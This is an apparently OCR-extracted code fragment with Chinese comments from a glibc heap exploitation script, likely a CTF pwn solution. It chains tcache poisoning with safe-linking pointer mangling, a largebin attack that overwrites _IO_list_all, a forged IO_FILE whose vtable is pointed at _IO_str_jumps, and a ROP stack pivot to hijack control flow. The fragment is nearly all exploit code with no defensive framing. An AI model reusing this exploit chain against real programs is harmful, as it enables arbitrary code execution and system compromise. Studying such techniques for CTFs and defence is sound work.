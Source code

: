 ```bash

    add(0)
    # 第一个 large chunk 入链
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x80)>>12)^((heap_addr+0x320))
    edit(1, p64(poc))
    add(0)
    add(1)
    target = _IO_list_all - 0x20
    # 布置好 largebin attack 使用的 Poc
    edit(1, p64(heap_addr+0x300)+p64(target))
    delete(0)
    delete(2)

    add(0)
    # 第二个 large chunk 入链，写入 _IO_list_all
    add(0)
    edit(1, p64(heap_addr+0x300)+p64(heap_addr+0x300))
    edit(2, p64(0)+p64(0))


    add(0)
    add(1)
    delete(1)
    # heap_addr + 0xe0 -----> mov rsp, [rdx + 0xa0]
    # heap_addr + 0xe8 -----> mov rcx, [rdx + 0xa8]; push rcx
    # 这里我们就可以放入第一条 ROP 指令
    edit(1, p64(heap_addr+0x1c0)+p64(pop_rdi))
    delete(0)
    poc = ((heap_addr+0xe0)>>12) ^ (heap_addr+0x870)
    edit(0, p64(poc))
    add(0)
    add(1)
    # 修改 FAKE IO_FILE 的 vtable 为 _IO_str_jumps
    edit(1, p64(0)+p64(_IO_str_jumps))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x100)>>12) ^ (heap_addr+0x7d0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE，写入 _IO_buf_base
    edit(1, p64(0) + p64(start))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x120)>>12) ^ (heap_addr+0x7f0)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

```